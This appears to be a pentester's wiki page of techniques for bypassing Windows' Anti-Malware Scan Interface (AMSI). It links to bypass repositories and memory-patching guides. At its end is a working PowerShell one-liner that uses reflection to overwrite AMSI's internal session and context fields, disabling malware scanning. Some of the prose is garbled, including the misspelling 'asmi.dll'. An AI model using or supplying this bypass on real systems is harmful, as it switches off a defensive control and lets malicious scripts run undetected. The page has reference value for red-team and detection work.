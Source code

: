 # AMSI-Bypass-Techniques


The Anti-Malware Scan Interface (AMSI) is a PowerShell security feature that will allow any applications or services to integrate into anti-malware products to scan payloads before execution inside of the runtime. This page is a about techniques, I am ninety-nine percent certain I have all the references to credit all the amazing people that have unwittingly contributed to this, if I have failed in this I apologise and will accept issues on this without much checking. There some may ways and awesome people, thank you!
For information about:
- [[AMSI]] 
- [[AMSI-Bypassing]] generally
- [[AMSI-Exploitation]] 

>[AMSI documentation](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) states:
	- *Starting in Windows 10, version 1903, if your AMSI provider DLL is not Authenticode-signed, then it may not be loaded (depending on how the host machine is configured). For full details, see [**IAntimalwareProvider** interface](https://learn.microsoft.com/en-us/windows/desktop/api/amsi/nn-amsi-iantimalwareprovider).*

The AMSI feature is integrated into these components of Windows 10.

## Techniques

One enumeration method for bypassing is compare target versions to bypass with [InsecurePowershell](https://github.com/PowerShell/PowerShell/compare/master...cobbr:master), which is a GitHub repository of PowerShell with security features removed. [S3cur3Th1sSh1t's currated List](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)  is represented here with either code or  local links to big code blocks or Cheatsheats with function calls from the framework.

[[Nishang-Helpsheet]] - `Invoke-Amsibypass` will use  publicly known methods to bypass/avoid AMSI.

#### Patching asmi.dll

The bypasses that will identify DLL locations and modify memory permissions to return undetected AMSI response values.

Patching the  asmi.dll - [[AMSI-ScanBuffer-Patch]] - Egghunter with blog post: [https://www.contextis.com/us/blog/amsi-bypass](https://www.contextis.com/us/blog/amsi-bypass)

ScanBuffer patch - [[AMSI-Buffer-Patch-In-memory]]
ScanBuffer bypass - [Rasta-Mouse](https://github.com/rasta-mouse/AmsiScanBufferBypass)

#### Forcing errors

Force an error
```powershell
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
```

